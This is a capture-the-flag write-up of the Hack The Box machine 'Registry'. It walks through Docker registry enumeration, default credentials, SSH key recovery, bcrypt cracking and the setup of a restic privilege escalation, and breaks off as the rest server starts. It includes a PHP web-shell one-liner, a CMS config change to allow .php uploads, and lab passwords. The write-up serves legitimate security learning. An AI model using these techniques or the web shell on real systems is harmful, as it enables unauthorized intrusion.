








## Summary

Registry just retired today. I had lots of fun solving it and I learned how to use a backup program called restic. Its IP address is ‘10.10.10.159’ and I added it to ‘/etc/hosts’ as ‘registry.htb’. Without further ado, let’s jump right in!

## Scanning & Domain Enum

A basic nmap scan was enough to get me started:


root@fury-battlestation:~/htb/blog/registry# nmap -sV -O registry.htb -oN scan.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-28 12:53 EST
Nmap scan report for registry.htb (10.10.10.159)
Host is up (0.13s latency).
Not shown: 942 closed ports, 55 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     nginx 1.14.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.14.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/28%OT=22%CT=1%CU=32025%PV=Y%DS=2%DC=I%G=Y%TM=5E0796
OS:CB%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST
OS:11NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)EC
OS:N(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.35 seconds
root@fury-battlestation:~/htb/blog/registry#



Ports 80 and 443 served the same, default nginx page:

Dirb found a directory called ‘install’, however, I discovered it was a non-ASCII file by accessing it:

I then downloaded the file to my computer and used the ‘file’ program to see if the data isn’t just garbage:


root@fury-battlestation:~/htb/blog/registry# wget https://registry.htb/install/ --no-check-certificate
--2019-12-28 13:01:50--  https://registry.htb/install/
Resolving registry.htb (registry.htb)... 10.10.10.159
Connecting to registry.htb (registry.htb)|10.10.10.159|:443... connected.
WARNING: The certificate of ‘registry.htb’ is not trusted.
WARNING: The certificate of ‘registry.htb’ doesn;t have a known issuer.
The certificate;s owner does not match hostname ‘registry.htb’
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘index.html’

index.html                   [ <=>                             ]   1.03K  --.-KB/s    in 0s      

2019-12-28 13:01:50 (4.56 MB/s) - ‘index.html’ saved [1050]

root@fury-battlestation:~/htb/blog/registry# file index.html 
index.html: gzip compressed data, last modified: Mon Jul 29 23:38:20 2019, from Unix, original size modulo 2^32 167772200 gzip compressed data, reserved method, has CRC, was "", from FAT filesystem (MS-DOS, OS/2, NT), original size modulo 2^32 167772200



The file was a gzip archive, so I tried to extract its contents:


root@fury-battlestation:~/htb/blog/registry# mv index.html archive.tar.gz
root@fury-battlestation:~/htb/blog/registry# tar xvf archive.tar.gz 

gzip: stdin: unexpected end of file
ca.crt
readme.md
tar: Child returned status 1
tar: Error is not recoverable: exiting now
root@fury-battlestation:~/htb/blog/registry# cat ca.crt 
-----BEGIN CERTIFICATE-----
MIIC/DCCAeSgAwIBAgIJAIFtFmFVTwEtMA0GCSqGSIb3DQEBCwUAMBMxETAPBgNV
BAMMCFJlZ2lzdHJ5MB4XDTE5MDUwNjIxMTQzNVoXDTI5MDUwMzIxMTQzNVowEzER
MA8GA1UEAwwIUmVnaXN0cnkwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIB
AQCw9BmNspBdfyc4Mt+teUfAVhepjje0/JE0db9Iqmk1DpjjWfrACum1onvabI/5
T5ryXgWb9kS8C6gzslFfPhr7tTmpCilaLPAJzHTDhK+HQCMoAhDzKXikE2dSpsJ5
zZKaJbmtS6f3qLjjJzMPqyMdt/i4kn2rp0ZPd+58pIk8Ez8C8pB1tO7j3+QAe9wc
r6vx1PYvwOYW7eg7TEfQmmQt/orFs7o6uZ1MrnbEKbZ6+bsPXLDt46EvHmBDdUn1
zGTzI3Y2UMpO7RXEN06s6tH4ufpaxlppgOnR2hSvwSXrWyVh2DVG1ZZu+lLt4eHI
qFJvJr5k/xd0N+B+v2HrCOhfAgMBAAGjUzBRMB0GA1UdDgQWBBTpKeRSEzvTkuWX
8/wn9z3DPYAQ9zAfBgNVHSMEGDAWgBTpKeRSEzvTkuWX8/wn9z3DPYAQ9zAPBgNV
HRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQABLgN9x0QNM+hgJIHvTEN3
LAoh4Dm2X5qYe/ZntCKW+ppBrXLmkOm16kjJx6wMIvUNOKqw2H5VsHpTjBSZfnEJ
UmuPHWhvCFzhGZJjKE+An1V4oAiBeQeEkE4I8nKJsfKJ0iFOzjZObBtY2xGkMz6N
7JVeEp9vdmuj7/PMkctD62mxkMAwnLiJejtba2+9xFKMOe/asRAjfQeLPsLNMdrr
CUxTiXEECxFPGnbzHdbtHaHqCirEB7wt+Zhh3wYFVcN83b7n7jzKy34DNkQdIxt9
QMPjq1S5SqXJqzop4OnthgWlwggSe/6z8ZTuDjdNIpx0tF77arh2rUOIXKIerx5B
-----END CERTIFICATE-----
root@fury-battlestation:~/htb/blog/registry# cat readme.md 
# Private Docker Registry

- https://docs.docker.com/registry/deploying/
- https://docs.docker.com/engine/security/certificates/
root@fury-battlestation:~/htb/blog/registry#



The certificate wasn’t very helpful, however, the ‘readme.md’ file hinted that there’s a private Docker Registry running on the machine. Docker Regitry use an HTTP API, so I concluded that there was probably another (sub-)domain. I used nmap to search for other sub-domains in the machine’s HTTPS certificate:


root@fury-battlestation:~/htb/blog/registry# nmap -p443 --script ssl-cert registry.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-28 13:06 EST
Nmap scan report for registry.htb (10.10.10.159)
Host is up (0.19s latency).

PORT    STATE SERVICE
443/tcp open  https
| ssl-cert: Subject: commonName=docker.registry.htb
| Issuer: commonName=Registry
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-05-06T21:14:35
| Not valid after:  2029-05-03T21:14:35
| MD5:   0d6f 504f 1cb5 de50 2f4e 5f67 9db6 a3a9
|_SHA-1: 7da0 1245 1d62 d69b a87e 8667 083c 39a6 9eb2 b2b5

Nmap done: 1 IP address (1 host up) scanned in 1.36 seconds
root@fury-battlestation:~/htb/blog/registry#



‘docker.registry.htb’ returned a blank page:

After reading about Docker Registries online, I tried getting a list of available dockers by accessing the following URL:


http://docker.registry.htb/v2/_catalog



I was asked to enter credentials for HTTP authentication, so I just enterd admin/admin and it worked 🙂

## Getting user.txt

After a bit of googling around, I found [docker_fetch](https://github.com/NotSoSecure/docker_fetch/), a program that “will help you pull docker images from a private registry using Docker Registry API”. 


root@fury-battlestation:~/htb/blog/registry# git clone https://github.com/NotSoSecure/docker_fetch.git
Cloning into 'docker_fetch'...
remote: Enumerating objects: 22, done.
remote: Total 22 (delta 0), reused 0 (delta 0), pack-reused 22
Unpacking objects: 100% (22/22), done.
root@fury-battlestation:~/htb/blog/registry# cd docker_fetch/
root@fury-battlestation:~/htb/blog/registry/docker_fetch# nano docker_image_fetch.py 
root@fury-battlestation:~/htb/blog/registry/docker_fetch# nano docker_image_fetch.py 
root@fury-battlestation:~/htb/blog/registry/docker_fetch# python docker_image_fetch.py -u https://docker.registry.htb

[+] List of Repositories:

bolt-image

Which repo would you like to download?:  bolt-image

[+] Available Tags:

latest

Which tag would you like to download?:  latest

Give a directory name:  bolt-image
Now sit back and relax. I will download all the blobs for you in bolt-image directory. 
Open the directory, unzip all the files and explore like a Boss. 



I had to modify the program a little so it supported HTTPBasicAuth. Also, I disabled the ‘insecure request’ warnings. The python file I used can be found below:


from requests.auth import HTTPBasicAuth
import os
import json
import optparse
import requests

# pulls Docker Images from unauthenticated docker registry api. 
# and checks for docker misconfigurations. 

apiversion = "v2"
final_list_of_blobs = []

# Disable insecure request warning 
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="URL Endpoint for Docker Registry API v2. Eg https://IP:Port", default="spam")
parser.add_option('-l', '--login', action="store", dest="username", help="HTTPAuth login username", default="admin")
parser.add_option('-p', '--pass', action="store", dest="password", help="HTTPAuth login password", default="admin")
options, args = parser.parse_args()
url = options.url
username = options.username
password = options.username

def list_repos():
	global username, password
	req = requests.get(url+ "/" + apiversion + "/_catalog", verify=False, auth=HTTPBasicAuth(username, password))
	return json.loads(req.text)["repositories"]

def find_tags(reponame):
	global username, password
	req = requests.get(url+ "/" + apiversion + "/" + reponame+"/tags/list", verify=False, auth=HTTPBasicAuth(username, password))
	print "\n"
	data =  json.loads(req.content)
	if "tags" in data:
		return data["tags"]

def list_blobs(reponame,tag):
	global username, password
	req = requests.get(url+ "/" + apiversion + "/" + reponame+"/manifests/" + tag, verify=False, auth=HTTPBasicAuth(username, password))
	data = json.loads(req.content)
	if "fsLayers" in data:
		for x in data["fsLayers"]:
			curr_blob = x['blobSum'].split(":")[1]
			if curr_blob not in final_list_of_blobs:
				final_list_of_blobs.append(curr_blob)

def download_blobs(reponame, blobdigest,dirname):
	global username, password
	req = requests.get(url+ "/" + apiversion + "/" + reponame +"/blobs/sha256:" + blobdigest, verify=False, auth=HTTPBasicAuth(username, password))
	filename = "%s.tar.gz" % blobdigest
	with open(dirname + "/" + filename, 'wb') as test:
		test.write(req.content)

def main(): 
	if url is not "spam":
		list_of_repos = list_repos()
		print "\n[+] List of Repositories:\n"
		for x in list_of_repos:
			print x
		target_repo = raw_input("\nWhich repo would you like to download?:  ")
		if target_repo in list_of_repos:
			tags = find_tags(target_repo)
			if tags is not None:
				print "\n[+] Available Tags:\n"
				for x in tags:
					print x

				target_tag = raw_input("\nWhich tag would you like to download?:  ")
				if target_tag in tags:
					list_blobs(target_repo,target_tag)

					dirname = raw_input("\nGive a directory name:  ")
					os.makedirs(dirname)
					print "Now sit back and relax. I will download all the blobs for you in %s directory. \nOpen the directory, unzip all the files and explore like a Boss. " % dirname
					for x in final_list_of_blobs:
						print "\n[+] Downloading Blob: %s" % x
						download_blobs(target_repo,x,dirname)
				else:
					print "No such Tag Available. Qutting...."
			else:
				print "[+] No Tags Available. Quitting...."
		else:
			print "No such repo found. Quitting...."
	else:
		print "\n[-] Please use -u option to define API Endpoint, e.g. https://IP:Port\n"

if __name__ == "__main__":
	main()



I then used the following command to untar all the files in the ‘bolt-image’ directory:


for i in *.tar.gz; do tar -xzvf $i; done



The resulting folders and files resembled a Linux file system:


root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# rm *.tar.gz
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# ls -l
total 76
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 bin
drwxrwx--- 1 root vboxsf 4096 Apr 24  2018 boot
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 dev
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 etc
drwxrwx--- 1 root vboxsf 4096 Apr 24  2018 home
drwxrwx--- 1 root vboxsf 4096 May 23  2017 lib
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 lib64
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 media
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 mnt
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 opt
drwxrwx--- 1 root vboxsf 4096 Apr 24  2018 proc
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 root
drwxrwx--- 1 root vboxsf 4096 Apr 26  2019 run
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 sbin
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 srv
drwxrwx--- 1 root vboxsf 4096 Apr 24  2018 sys
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 tmp
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 usr
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 var
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image#



I was then able to find a private SSH key for the ‘bolt’ user:


root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# cat ./root/.ssh/config
Host registry
  User bolt
  Port 22
  Hostname registry.htb
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# cp ./root/.ssh/id_rsa ~/.ssh/bolt_registry 
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image#



However, when I tried connecting to the actual machine, I was prompted for a passphrase. I found an interesting script in root’s .viminfo file:


root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# cat ./root/.viminfo 
# This viminfo file was generated by Vim 8.0.
# You may edit it if you;re careful!

# Viminfo version
|1,4

# Value of 'encoding' when this file was written
*encoding=latin1

# hlsearch on (H) or off (h):
~h
# Command Line History (newest to oldest):
:q!
|2,0,1558797180,,"q!"

# Search String History (newest to oldest):

# Expression History (newest to oldest):

# Input Line History (newest to oldest):

# Debug Line History (newest to oldest):

# Registers:

# File marks:
;0  1  0  /var/www/html/sync.sh
|4,48,1,0,1558797180,"/var/www/html/sync.sh"
;1  1  0  /etc/profile.d/01-ssh.sh
|4,49,1,0,1558797115,"/etc/profile.d/01-ssh.sh"

# Jumplist (newest first):
-;  1  0  /var/www/html/sync.sh
|4,39,1,0,1558797180,"/var/www/html/sync.sh"
-;  1  0  /etc/profile.d/01-ssh.sh
|4,39,1,0,1558797115,"/etc/profile.d/01-ssh.sh"
-;  1  0  /etc/profile.d/01-ssh.sh
|4,39,1,0,1558797115,"/etc/profile.d/01-ssh.sh"

# History of marks within files (newest to oldest):

> /var/www/html/sync.sh
	*	1558797175	0
		1	0

> /etc/profile.d/01-ssh.sh
	*	1558797112	0
		1	0
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image#



The script contained the passphrase for the SSH key:


root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# cat ./etc/profile.d/01-ssh.sh
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image#



I didn’t want to enter the passphrase every time I connected as ‘bolt’, so I removed the passphrase from the private key:


root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# ssh bolt@registry.htb -i ~/.ssh/bolt_registry 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Sat Dec 28 18:31:47 UTC 2019

  System load:  0.0               Users logged in:                1
  Usage of /:   5.7% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 37%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    161
Last login: Sat Dec 28 18:01:49 2019 from 10.10.14.111
bolt@bolt:~$ wc -c user.txt 
33 user.txt
bolt@bolt:~$



The user proof starts with ‘yt’ 😉

## Getting Credentials for the CMS

Once I submitted the user proof, I started enumerating the machine. I found an file with interesting content named backup.php in the /var/www/html directory:


bolt@bolt:~$ ls /var/www/html
backup.php  bolt  index.html  index.nginx-debian.html  install
bolt@bolt:~$ cat /var/www/html/backup.php 
<?php shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
bolt@bolt:~$



I figured out that I could get root by exploiting restic. However, bolt wasn’t allowed to execute the program with elevated privileges. This made me think that I first needed to pivot to www-data and then find a way to exploit restic.

I also found another folder named bolt in the /var/www/html directory:


bolt@bolt:~$ cd /var/www/html
bolt@bolt:/var/www/html$ ls
backup.php  bolt  index.html  index.nginx-debian.html  install
bolt@bolt:/var/www/html$ cd bolt
bolt@bolt:/var/www/html/bolt$ ls
app		 composer.json	  extensions  LICENSE.md	src    vendor
changelog.md	 composer.lock	  files       phpunit.xml.dist	tests
codeception.yml  CONTRIBUTING.md  index.php   README.md		theme
bolt@bolt:/var/www/html/bolt$ cat README.md 
Bolt
====

A [Sophisticated, lightweight & simple CMS][bolt-cm] released under the open
source [MIT-license][MIT-license].

Bolt is a tool for Content Management, which strives to be as simple and
straightforward as possible.

It is quick to set up, easy to configure, uses elegant templates, and above
all, it;s a joy to use!

Bolt is created using modern open source libraries, and is best suited to build
sites in HTML5 with modern markup.

Installation
------------

Detailed instructions can be found in the [official documentation][docs].

**NOTE:** Cloning the repository directly is only supported for development of
the core of Bolt, see the link above for various supported options to suit
your needs.

Reporting issues
----------------

See our [Contributing to Bolt][contributing] guide.

Support
-------

Have a question? Want to chat? Run into a problem? See our [community][support]
page.

---

[![Build Status][travis-badge]][travis] [![Scrutinizer Continuous Inspections][codeclimate-badge]][codeclimate] [![SensioLabsInsight][sensio-badge]][sensio-insight]  [![Slack][slack-badge]](https://slack.bolt.cm)

[bolt-cm]: https://bolt.cm
[MIT-license]: http://opensource.org/licenses/mit-license.php
[docs]: https://docs.bolt.cm/installation
[support]: https://bolt.cm/community
[travis]: http://travis-ci.org/bolt/bolt
[travis-badge]: https://travis-ci.org/GawainLynch/bolt.svg?branch=release%2F3.3
[codeclimate]: https://lima.codeclimate.com/github/bolt/bolt
[codeclimate-badge]: https://lima.codeclimate.com/github/bolt/bolt/badges/gpa.svg
[sensio-insight]: https://insight.sensiolabs.com/projects/4d1713e3-be44-4c2e-ad92-35f65eee6bd5
[sensio-badge]: https://insight.sensiolabs.com/projects/4d1713e3-be44-4c2e-ad92-35f65eee6bd5/mini.png
[slack-badge]: https://slack.bolt.cm/badge/ratio
[contributing]: https://github.com/bolt/bolt/blob/master/.github/CONTRIBUTING.md
bolt@bolt:/var/www/html/bolt$



As the readme.md file stated, bolt is a simple CMS program. The changelog.md file quickly revealed the service’s version:


bolt@bolt:/var/www/html/bolt$ cat changelog.md | head -n 5
Changelog for Bolt 3.x
======================

Bolt 3.6.4
----------
bolt@bolt:/var/www/html/bolt$



Like most CMS platforms, bolt required credentials to identify admins. I managed to find the program’s database (bolt.db) and to extract the admin’s password hash:


root@fury-battlestation:~/htb/blog/registry# scp -i ~/.ssh/bolt_registry bolt@registry.htb:/var/www/html/bolt/app/database/bolt.db .
bolt.db                                                              100%  288KB 372.4KB/s   00:00    
root@fury-battlestation:~/htb/blog/registry# sqlite3
SQLite version 3.29.0 2019-07-10 17:32:03
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> .open bolt.db
sqlite> .database
main: /root/htb/blog/registry/bolt.db
sqlite> .tables
bolt_authtoken    bolt_field_value  bolt_pages        bolt_users      
bolt_blocks       bolt_homepage     bolt_relations  
bolt_cron         bolt_log_change   bolt_showcases  
bolt_entries      bolt_log_system   bolt_taxonomy   
sqlite> .output users.txt
sqlite> SELECT * FROM bolt_users;
sqlite> .exit
root@fury-battlestation:~/htb/blog/registry# cat users.txt 
1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb|2019-12-28 18:44:20|10.10.14.23|Admin|["files://b374k-3.2.3.php"]|1||||0||["root","everyone"]
root@fury-battlestation:~/htb/blog/registry#



After doing that, I used johnTheRipper to crack the newly-obtained hash:


root@fury-battlestation:~/htb/blog/registry# echo "\$2y\$10\$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK" > hash.txt
root@fury-battlestation:~/htb/blog/registry# john hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
strawberry       (?)
1g 0:00:00:12 DONE 2/3 (2019-12-28 13:50) 0.08210g/s 90.14p/s 90.14c/s 90.14C/s stinky..thunder
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@fury-battlestation:~/htb/blog/registry# 



The password of the admin account was… strawberry 🙂 I used those credentials to log in:

## Pivoting to www-data

I found [this vulnerability](https://www.hacksecproject.com/?p=293) online. Basically, an attacker can upload an image and then change its extension to .php and the code will get executed. I crafted the image using the following command:


root@fury-battlestation:~/htb/blog/registry# echo '<?php echo shell_exec($_GET["cmd"]); ?>' >> ./yakuhito.jpg
root@fury-battlestation:~/htb/blog/registry#



I uploaded my file by visiting the following URL:


https://registry.htb/bolt/bolt/files



You might remember the backup.php file. That file resets the ‘bolt’ folder every few minutes, so it’s perfectly normal for files to disappear. I didn’t manage to find a workaround; I just re-uploaded them 🙂

When I tried to rename my file, I got a strange error. I spent a lot of time trying to bypass that, but then I realized I could just edit the config file and make the CMS accept .php files. I did that by accessing the following URL:


https://registry.htb/bolt/bolt/file/edit/config/config.yml



The allowed file extensions list can be found on line #240. I added php at the beginning of that list:

After I clicked the ‘Save’ button, I uploaded ‘yakuhito.php’, which was just ‘yakuhito.jpg’ with a different name. I then accessed the file and added a ‘cmd’ parameter to see if I had achieved command execution:

It worked! This time, however, I didn’t spawn a reverse shell.

## Exploiting restic

After I was able to execute commands as www-data, I copied my shell to /var/www/html, because /var/www/html/bolt was reset every few minutes:


cp ./yakuhito.php /var/www/html



I then ran ‘sudo -l’ to see how restricted were the restic commands www-data could run as root:


Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*



Great! The commands have almost no restrictions. The only switch I had to use was -r rest, which basically specified an URL for the restic HTTP API instance that’s going to store the backup. That might sound complicated, but all I had to do to start that server locally was to clone [this repository](https://github.com/restic/rest-server) and enter 2 commands. First, I started the server:


root@fury-battlestation:~/htb/blog/registry/rest-server# rest-server --path ./root-files/ --no-auth --listen localhost:1337
Data directory: ./root-files/
Authentication disabled
Private repositories disabled
Starting server on localhost:1337



